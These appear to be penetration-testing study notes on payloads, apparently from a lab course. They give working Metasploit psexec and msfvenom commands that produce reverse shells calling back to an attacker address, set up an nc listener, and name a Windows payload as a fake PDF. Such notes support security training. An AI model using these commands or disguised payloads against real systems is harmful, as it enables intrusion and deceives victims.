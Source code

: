 ## Payloads

* In information security, payload refers to the command/code that performs the malicious action

* Metasploit example:

  ```sh
  msfconsole

  use exploit/windows/smb/psexec

  options

  set RHOSTS 10.129.180.71

  set SHARE ADMIN$

  set SMBPass password123

  set SMBUser username

  set LHOST tun0

  exploit
  # if it is successful, we get a shell
  ```

* MSFvenom for crafting payloads:

  ```sh
  msfvenom -l payloads
  # list available payloads

  # windows/meterpreter/reverse_tcp - staged payload - multiple 'stages'
  # windows/meterpreter_reverse_tcp - stageless payload

  msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
  # crafting a stageless payload

  # we can then get this stageless payload transferred to victim machine

  # setup listener
  sudo nc -nvlp 443

  # once payload is executed, we will get reverse shell on listener

  # crafting a stageless payload for Windows
  msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
  ```

## Windows Shells
